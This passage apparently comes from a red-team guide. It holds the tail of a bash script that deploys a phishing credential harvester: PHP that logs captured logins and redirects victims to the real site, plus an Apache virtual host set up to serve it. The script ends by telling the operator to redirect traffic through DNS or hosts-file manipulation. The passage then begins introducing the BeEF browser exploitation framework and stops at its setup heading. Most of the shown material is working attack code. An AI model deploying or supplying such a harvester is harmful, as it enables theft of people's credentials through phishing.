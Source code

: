 ```bash
}
$data .= "============================\n\n";

// Write to log file
fwrite($fp, $data);
fclose($fp);

// Redirect user to legitimate site
header("Location: $redirect_url");
exit;
?>
EOF

# Set permissions
chmod 644 "$OUTPUT_DIR/harvester.php"

# Configure Apache (assumes default Debian/Ubuntu configuration)
cat > "/etc/apache2/sites-available/credential-harvester.conf" << EOF
<VirtualHost *:80>
    ServerAdmin webmaster@localhost
    DocumentRoot $OUTPUT_DIR
    ErrorLog \${APACHE_LOG_DIR}/error.log
    CustomLog \${APACHE_LOG_DIR}/access.log combined
    
    <Directory $OUTPUT_DIR>
        Options -Indexes +FollowSymLinks
        AllowOverride All
        Require all granted
    </Directory>
</VirtualHost>
EOF

# Enable the site
a2ensite credential-harvester.conf
systemctl reload apache2

echo "Website clone and credential harvester set up in $OUTPUT_DIR"
echo "Credentials will be logged to $LOG_FILE"
echo "Remember to set up DNS or use hosts file manipulation to direct traffic to this server"
```

This script provides a more robust cloning solution than SET's built-in cloner, particularly for complex web applications. It can be used alongside SET for more sophisticated attacks.

## BeEF: Browser Exploitation Framework

The Browser Exploitation Framework (BeEF) is a powerful penetration testing tool focused on exploiting vulnerabilities in web browsers. By hooking browsers, BeEF allows red teamers to assess the security posture of target organizations through client-side attack vectors.

### Installation and Setup
